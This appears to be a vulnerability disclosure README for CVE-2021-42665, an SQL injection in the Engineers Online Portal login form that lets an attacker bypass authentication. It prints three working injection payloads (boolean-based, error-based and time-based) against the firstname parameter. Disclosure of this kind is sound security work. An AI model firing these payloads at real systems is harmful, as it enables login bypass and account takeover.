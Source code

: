 ## [CVE-2021-42665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42665)

## [Vendor](https://www.sourcecodester.com/php/13115/engineers-online-portal-php.html)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-42665/docs/ps_portal.png)

## Description:

An SQL Injection vulnerability exists in Sourcecodester Engineers Online Portal in PHP via the login form inside of index.php, which can allow an attacker to bypass authentication.
And five more SQL - Injections, the attacker can bypass all accounts of this system and he can manipulate those accounts with
malicious purposes and destroy the owners of these accounts. This system also has six more XSS: 4 reflected and 2 (CSRF) vulnerabilities!
Status: Critical and extremely awful! 
Conclusion: This system must be stopped from distribution immediately! BR nu11secur1ty

## Types of SQL Injections:

```mysql
---
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: firstname=tbcRxVrk' OR NOT 6030=6030#&lastname=tbcRxVrk&department_id='&username=tbcRxVrk&password=x6P!w4r!A0&cpassword=x6P!w4r!A0

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: firstname=tbcRxVrk' AND (SELECT 4603 FROM(SELECT COUNT(*),CONCAT(0x716b717671,(SELECT (ELT(4603=4603,1))),0x717a627a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- upfj&lastname=tbcRxVrk&department_id='&username=tbcRxVrk&password=x6P!w4r!A0&cpassword=x6P!w4r!A0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: firstname=tbcRxVrk' AND (SELECT 2357 FROM (SELECT(SLEEP(5)))mNaQ)-- xKTb&lastname=tbcRxVrk&department_id='&username=tbcRxVrk&password=x6P!w4r!A0&cpassword=x6P!w4r!A0
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/edit/main/CVE-2021-42665)

## Proof:
[href](https://streamable.com/ncpzyb)
